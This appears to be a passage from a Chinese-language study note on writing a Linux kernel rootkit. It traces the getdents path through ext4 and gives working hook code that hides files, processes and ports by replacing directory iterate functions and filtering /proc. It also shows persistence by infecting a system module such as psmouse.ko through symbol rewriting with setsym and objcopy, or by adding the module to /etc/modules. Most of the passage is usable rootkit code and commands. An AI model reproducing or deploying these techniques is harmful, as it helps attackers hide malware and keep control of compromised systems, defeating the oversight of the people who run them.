#endif
	.fsync		= ext4_sync_file,
	.open		= ext4_dir_open,
	.release	= ext4_release_dir,
};
```

可以看到在ext4中，使用的是 iterate_shared

也就是说，通过getdents系统调用来获取当前目录下的文件时，经过`file->f_op->iterate(file, ctx)`，或者`file->f_op->iterate_shared(file, ctx)`的函数调用，在ext4中

```
.iterate_shared	= ext4_readdir
```

实际上调用的是ext4_dir_operations函数集中的ext4_readdir()函数。由ex4文件系统驱动来读取当前目录文件中的一个个目录项。 ext4_readdir最终会通过filldir把目录里面的项目一个一个的填到getdents返回的缓冲区里，缓冲区里是一个个的linux_dirent。 

```
/* https://elixir.bootlin.com/linux/v4.15/source/fs/ext4/dir.c#L103 */
static int ext4_readdir(struct file *file, struct dir_context *ctx)
{
	……
	if (is_dx_dir(inode)) {
		err = ext4_dx_readdir(file, ctx);
		if (err != ERR_BAD_DX_DIR) {
			return err;
		}
		……
	}
	……
}
```

ext4_dx_readdir 的定义

```
/* https://elixir.bootlin.com/linux/v4.15/source/fs/ext4/dir.c#L526 */
static int ext4_dx_readdir(struct file *file, struct dir_context *ctx)
{
		……
		if (call_filldir(file, ctx, fname))
			break;
		……
}
```

call_filldir 的定义

```
/* https://elixir.bootlin.com/linux/v4.15/source/fs/ext4/dir.c#L499 */
/*
 * This is a helper function for ext4_dx_readdir.  It calls filldir
 * for all entres on the fname linked list.  (Normally there is only
 * one entry on the linked list, unless there are 62 bit hash collisions.)
 */
static int call_filldir(struct file *file, struct dir_context *ctx,
			struct fname *fname)
{
	……
	while (fname) {
		if (!dir_emit(ctx, fname->name,
				fname->name_len,
				fname->inode,
				get_dtype(sb, fname->file_type))) {
			info->extra_fname = fname;
			return 1;
		}
		fname = fname->next;
	}
	……
}
```

dir_emit 的定义

```
/* https://elixir.bootlin.com/linux/v4.15/source/include/linux/fs.h#L3366 */
static inline bool dir_emit(struct dir_context *ctx,
			    const char *name, int namelen,
			    u64 ino, unsigned type)
{
	return ctx->actor(ctx, name, namelen, ctx->pos, ino, type) == 0;
}
```

最终看到，dir_emit 中调用了ctx->actor，也就是之前分析的filldir。

整个调用流程如下：

```
sys_getdents -> iterate_dir -> struct file_operations.iterate ->  中间省略 -> struct dir_context.actor(也就是filldir)
```

因此文件隐藏钩子的思路是 hook 相应目录的 iterate，把 dir_context 的 actor 改为 fake_filldir，fake_filldir 把需要隐藏的文件过滤。 

```
int fake_iterate(struct file *filp, struct dir_context *ctx)
{
    // 备份真的 ``filldir``，以备后面之需。
    real_filldir = ctx->actor;

    // 把 ``struct dir_context`` 里的 ``actor``，
    // 也就是真的 ``filldir``
    // 替换成我们的假 ``filldir``
    *(filldir_t *)&ctx->actor = fake_filldir;

    return real_iterate(filp, ctx);
}
#define SECRET_FILE "QTDS_"
int fake_filldir(struct dir_context *ctx, const char *name, int namlen,
             loff_t offset, u64 ino, unsigned d_type)
{
    if (strncmp(name, SECRET_FILE, strlen(SECRET_FILE)) == 0) {
        // 如果是需要隐藏的文件，直接返回，不填到缓冲区里。
        printk("Hiding: %s", name);
        return 0;
    }
    // 如果不是需要隐藏的文件，
    // 交给的真的 ``filldir`` 把这个记录填到缓冲区里。
    return real_filldir(ctx, name, namlen, offset, ino, d_type);
}
```

最后是一个宏，来替换指定目录下的iterate

```
#define set_f_op(op, path, new, old)    \
    do{                                 \
        struct file *filp;              \
        struct file_operations *f_op;   \
        printk("Opening the path: %s.\n", path);    \
        filp = filp_open(path, O_RDONLY, 0);        \
        if(IS_ERR(filp)){                           \
            printk("Failed to open %s with error %ld.\n",   \
                path, PTR_ERR(filp));                       \
            old = NULL;                                     \
        }                                                   \
        else{                                               \
            printk("Succeeded in opening: %s.\n", path);    \
            f_op = (struct file_operations *)filp->f_op;    \
            old = f_op->op;                                 \
            printk("Changing iterate from %p to %p.\n",     \
                    old, new);                              \
            disable_write_protection();                     \
            f_op->op = new;                                 \
            enable_write_protection();                      \
        }                                                   \
    }while(0)
```

具体使用iterate还是iterate_shared要看具体的内核版本，本次环境为4.15.0，使用的是iterate_shared。


### 进程隐藏

**根据PID获取相应的Task**

```
struct task_struct *
find_task(pid_t pid)
{
	struct task_struct *p = current;
	for_each_process(p) {
		if (p->pid == pid)
			return p;
	}
	return NULL;
}
```

用户态获取进程信息只能通过/proc下的目录来获取

因此结合文件隐藏，把/proc下名字与指定PID相同的文件夹隐藏即可

[参考](https://wohin.me/rootkit/2017/05/11/LinuxRootkitExp-00023.html)

[参考](https://github.com/m0nad/Diamorphine/blob/master/diamorphine.c)

可以结合钩子kill来接收指定信号执行指定命令。


### 端口隐藏

 用户态下隐藏端口信息，也是把`/proc/`下端口相关信息过滤掉。 

| 网络类型 |   对应/proc    |    内核源码文件     | 主要实现函数  |
| :------: | :------------: | :-----------------: | :-----------: |
| TCP/IPv4 | /proc/net/tcp  | net/ipv4/tcp_ipv4.c | tcp4_seq_show |
| TCP/IPv6 | /proc/net/tcp6 | net/ipv6/tcp_ipv6.c | tcp6_seq_show |
| UDP/IPv4 | /proc/net/udp  |   net/ipv4/udp.c    | udp4_seq_show |
| UDP/IPv6 | /proc/net/udp6 |   net/ipv6/udp.c    | udp6_seq_show |

[参考](https://wohin.me/rootkit/2017/05/11/LinuxRootkitExp-00024.html)


### rootkit持久化

#### 方案一：劫持系统模块

**编译过程**

noinj.c

```
# ifndef CPP
# include <linux/module.h>
# include <linux/kernel.h>
# endif // CPP

# include "zeroevil/zeroevil.h"


MODULE_LICENSE("GPL");

int
noinj_init(void)
{
    fm_alert("noinj: %s\n", "Greetings the World!");

    return 0;
}

void
noinj_exit(void)
{
    fm_alert("noinj: %s\n", "Farewell the World!");

    return;
}

module_init(noinj_init);
module_exit(noinj_exit);

int
fake_init(void)
{
    noinj_init();

    fm_alert("==> NOINJ: %s\n", "GR33TINGS THE W0RLD!");

    return 0;
}

int
fake_exit(void)
{
    noinj_exit();

    fm_alert("==> NOINJ: %s\n", "FAR3W311 THE W0RLD!");

    return 0;
}
```

编译生成的noinj.ko文件是一个可重定位文件。

- 根据`noinj.c`生成`noinj.o`
- 编译器生成一个`noinj.mod.c`源文件
- 根据`noinj.mod.c`生成`noinj.mod.o`
- 将`noinj.o`与`noinj.mod.o`链接为`noinj.ko`

我们看一下`noinj.mod.c`，比较有意思的是下面几行：

```
__visible struct module __this_module
__attribute__((section(".gnu.linkonce.this_module"))) = { 
    .name = KBUILD_MODNAME,
    .init = init_module,
#ifdef CONFIG_MODULE_UNLOAD
    .exit = cleanup_module,
#endif
    .arch = MODULE_ARCH_INIT,
};
```

​	`__this_module`即用来表示我们的模块的数据结构，它将被放在`.gnu.linkonce.this_module`节中。入口函数和出口函数都是默认的，其原因我们在**预备一**中已经解释过。

​	如果我们把`init_module/cleanup_module`的值分别改为`fake_init/fake_exit`的值，则当模块加载进行符号解析和重定位时，它们就会分别被解析定位到`fake_init/fake_exit`上，从而导致假的入口/出口函数被执行。 

​	根据上面的思路我们已经实现同模块入口出口劫持。这里，我们希望将一个模块的入口出口函数替换为另一个模块的入口出口函数。如果能够实现，我们就可以使用新的模块去替换`lib/modules/$(uname -r)/kernel/`下的某个开机加载模块，从而实现 rootkit 持久化。 

为达到这个目的，有几个问题：

- 感染/替换哪个系统模块？

  由于后面我们要进行测试，需要`rmmod`，所以最好找一个已加载但没有被使用的模块。我们可以在`lsmod`命令输出中找一个`Used`数为零的模块。后面将以`ac`模块为例。`ac`模块的路径是`/lib/modules/$(uname -r)/kernel/drivers/acpi/ac.ko`。

- 怎样得知系统内核模块的入口/出口函数名？

  一方面，我们可以使用ELF解析工具`readelf -s ac.ko`中找长得像的函数；

  另一方面，我们可以在相应内核源码中找准确定义：

  在`drivers/acpi/ac.c`中搜索`module_init`：

```
module_init(acpi_ac_init);
module_exit(acpi_ac_exit);
```

​	通过劫持符号表来进行感染，劫持同模块

```
int
noinj_init(void)
{
    fm_alert("noinj: %s\n", "Greetings the World!");

    return 0;
}

void
noinj_exit(void)
{
    fm_alert("noinj: %s\n", "Farewell the World!");

    return;
}

module_init(noinj_init);
module_exit(noinj_exit);
int
fake_init(void)
{
    noinj_init();

    fm_alert("==> NOINJ: %s\n", "GR33TINGS THE W0RLD!");

    return 0;
}

int
fake_exit(void)
{
    noinj_exit();

    fm_alert("==> NOINJ: %s\n", "FAR3W311 THE W0RLD!");

    return 0;
}
```

使用setsym进行修改符号值

```
// 第一种用法，获取符号的值。
setsym <module_path> <symbol_name>
 
// 第二种用法，设置符号的值。
setsym <module_path> <symbol_name> <symbol_value>
```

- 怎么实现模块间感染 

   `.ko`文件是可重定位文件，这意味着我们可以通过`ld`链接它们，有的模块的出入函数前面都加了`static`，即符号只在本目标文件内可见，需要注意。

  使用objcopy工具修改

```
objcopy：将目标文件的一部分或者全部内容拷贝到另外一个目标文件中，或者实现目标文件的格式转换。

--globalize-symbol=symbolname 
    让变量symbolname变成全局范围，这样它可以在定义它的文件外部可见。可以多次指定。
```

​	演示脚本

```
// 构建模块。
$ make
// 复制一份副本用于对照演示。
$ cp noinj.ko infected.ko
// 将副本的 init_module 符号值改成 fake_init 符号值。
$ setsym infected.ko init_module $(setsym infected.ko fake_init)
// 将副本的 cleanup_module 符号值改成 fake_exit 符号值。
$ setsym infected.ko cleanup_module $(setsym infected.ko fake_exit)
// 加载原始的模块。
$ insmod noinj.ko
// 卸载载原始的模块。
$ rmmod noinj
// 加载修改过的副本。
$ insmod infected.ko
// 卸载修改过的副本。
$ rmmod noinj // 注意模块名要用宿主的，即 noinj
```

​	因为我的内核版本中ubuntu16.04（4.15.0）里启动时没有加载video.ko所以不能直接用参考文章里的模块，需要自己找一个

​	找到了input/mouse/psmouse.ko matches

```
static int __init psmouse_init(void)
{
。。。。。
}

static void __exit psmouse_exit(void)
{
。。。。。
}

module_init(psmouse_init);
module_exit(psmouse_exit);
```

#### 	方案二：在/etc/modules里添加

​	还可以在/etc/modules里添加，但是不够隐蔽

```
//将我的内核模块复制到驱动程序目录.
$sudo cp mymodule.ko /lib/modules/$(uname -r)/kernel/drivers/
//将我的模块的简单名称添加到文件/ etc / modules中
$echo 'mymodule' | sudo tee -a /etc/modules
//更新模块依赖关系列表.
$sudo depmod
```


## 内核编程学习附录


**LINUX_VERSION_CODE和KERNEL_VERSION**

[内核版本号以及判断方法](https://www.jianshu.com/p/045b98f070f1)

关于Linux内核版本的两个宏定义在`/usr/include/linux/version.h`

```
#define LINUX_VERSION_CODE 263213
#define KERNEL_VERSION(a,b,c) (((a) << 16) + ((b) << 8) + (c))
```

假如我内核版本为4.4.45

- 首先将4.4.45 转为16进制为 0x04.0x04.0x2D
- 然后宏 KERNEL_VERSION(0x04,0x04,0x2D)展开之后得到04042D 这个16进制的数字
- 最后将0x040423 转化为十进制就得到了十进制的263213 即为 LINUX_VERSION_CODE的值263213

在使用时，可以根据版本号不同调用不同的API保持兼容

```
#if LINUX_VERSION_CODE < KERNEL_VERSION(3,10,0)
....//3.10.0 之前的API调用
#else 
....//3.10.0 版本之后的API调用
#endif 
```


**proc_dir_entry 结构体**

定义在`fs/proc/internal.h`

struct proc_dir_entry 结构体是用来管理/proc文件系统目录项 ，在不同版本中可能有差异

```
struct proc_dir_entry {
    unsigned int low_ino;
    umode_t mode;
    nlink_t nlink;
    kuid_t uid;
    kgid_t gid;
    loff_t size;
    const struct inode_operations *proc_iops;
    const struct file_operations *proc_fops;
    struct proc_dir_entry *parent;
    struct rb_root subdir;
    struct rb_node subdir_node;
    void *data;
    atomic_t count;         /* use count */
    atomic_t in_use;        /* number of callers into module in progress; */
                            /* negative -> it's going away RSN */
    struct completion *pde_unload_completion;
    struct list_head pde_openers;   /* who did ->open, but not ->release */
    spinlock_t pde_unload_lock; /* proc_fops checks and pde_users bumps */
    u8 namelen;
    char name[];
};
```


**hook open函数的尝试**

在hook open的时候需要注意内核态数据和用户态数据不能互通，hook kill函数是成功的，因为它直接传pid值给kill，而open传进来的filename是一个指针

```
static __always_inline unsigned long __must_check
copy_from_user(void *to, const void __user *from, unsigned long n)
{
	if (likely(check_copy_size(to, n, false)))
		n = _copy_from_user(to, from, n);
	return n;
}
```

